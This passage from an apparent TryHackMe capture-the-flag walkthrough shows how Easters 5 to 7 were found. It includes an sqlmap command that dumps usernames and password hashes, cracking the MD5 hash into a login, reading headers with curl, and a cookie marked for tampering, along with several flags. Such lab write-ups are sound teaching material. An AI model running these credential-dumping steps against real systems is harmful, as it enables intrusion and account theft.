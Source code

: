 ~~~
| username | varchar(30) |
+----------+-------------+
~~~

Let's dump the content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/CTF_collection_Vol.2/files]
└─$ sqlmap -r req.xml -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"

[REDACTED]

select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me
~~~

We got an MD5 hash. I used [crackstation](https://crackstation.net/) and cracked it. It decrypted to `cutie`.

So we can use the username and password (`DesKel:cutie`) to login from `/login` and you get the 5th easter.

Easter 5: `THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql} `

## Easter 6

Hint: Look out for the response header.

I saved the header using `curl` and we can see the easter:

~~~
$ curl -s "http://$IP/" -D header.txt
$ cat header.txt                     
HTTP/1.1 200 OK
Date: Tue, 26 Oct 2021 12:31:12 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~

Easter 6: `THM{l37'5_p4r7y_h4rd}`

## Easter 7

Hint: Cookie is delicious

If you take a look at the header again, you can see a cookie named `Invited` which is set to 0:

~~~
HTTP/1.1 200 OK
Date: Tue, 26 Oct 2021 12:31:12 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~
